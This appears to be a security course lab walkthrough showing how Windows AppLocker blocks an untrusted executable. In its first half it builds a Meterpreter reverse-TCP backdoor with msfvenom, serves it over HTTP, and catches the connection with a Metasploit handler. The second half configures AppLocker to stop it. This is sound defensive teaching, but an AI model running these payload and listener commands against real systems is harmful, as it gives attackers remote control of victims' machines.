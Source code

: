 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments\Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments\Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments\Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

![](attachments\Clipboard_2020-07-09-15-52-24.png)

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments\Clipboard_2020-06-12-12-46-10.png)


Now, let’s surf to your Linux system, download the malware and run it!

Simply open an edge browser to `http://<YOUR LINUX IP>:8000`

![](attachments\Clipboard_2020-07-09-15-54-29.png)

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

![](attachments\Clipboard_2020-07-09-15-55-05.png)
You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments\Clipboard_2020-06-12-12-55-11.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments\Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments\Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments\Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments\Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments\Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments\Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments\Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments\Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments\Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments\Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments\Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






